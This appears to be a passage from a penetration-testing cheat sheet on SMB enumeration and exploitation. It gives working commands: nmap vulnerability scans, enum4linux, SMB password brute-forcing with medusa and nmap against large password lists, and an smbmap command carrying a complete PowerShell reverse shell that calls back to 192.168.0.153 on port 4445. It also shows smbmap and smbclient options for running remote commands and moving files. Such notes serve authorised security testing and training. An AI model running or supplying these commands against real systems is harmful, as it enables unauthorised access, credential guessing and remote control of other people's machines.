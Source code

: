 ````
nmap --script smb-vuln* -p 139,445 $ip
````
- Overall Scan  
````
enum4linux -a $ip
````
- Get a shell with smbmap (windows)
````
smbmap -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 
````
- Brute Force SMB
````
medusa -h $ip -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt $ip  -vvvv
````
### smbmap
- smbmap is one of the best ways to enumerate samba. smbmap allows pen-testers to run commands(given proper permissions), download and upload files, and overall is just incredibly useful for smb enumeration.
````
smbmap -u "admin" -p "password" -H 10.10.10.10 -x "ipconfig"
````
- `-s` -> specify the share to enumerate
- `-d` -> specify the domain to enumerate
- `--download` -> downloads a file
- `--upload` -> uploads a file
### smbclient
- List shares
````
smbclient -L 10.10.115.116
````
- smbclient allows you to do most of the things you can do with smbmap, and it also offers you and interactive prompt.
- `-w` -> specify the domain(workgroup) to use when connecting to the host
- `-I` -> specify the ip address of the host
- `-c "ipconfig"` -> would run the `ipconfig` command on the host
- `-U` -> specify the username to authenticate with 
- `-P` -> specifies the password to authenticate with
- `-N` -> tells smbclient to not use a password
- `get test` -> would download the file named `test`
- `put /etc/hosts` -> would put your `/etc/hosts` file on the target 
- Syntax: 
- To see which shares are available on a given host, run:
````
 /usr/bin/smbclient -L 10.10.10.10
````
- For example, if you are trying to reach a directory that has been shared as 'public' on a machine called 10.10.10.10, the service would be called \\10.10.10.10\public. - 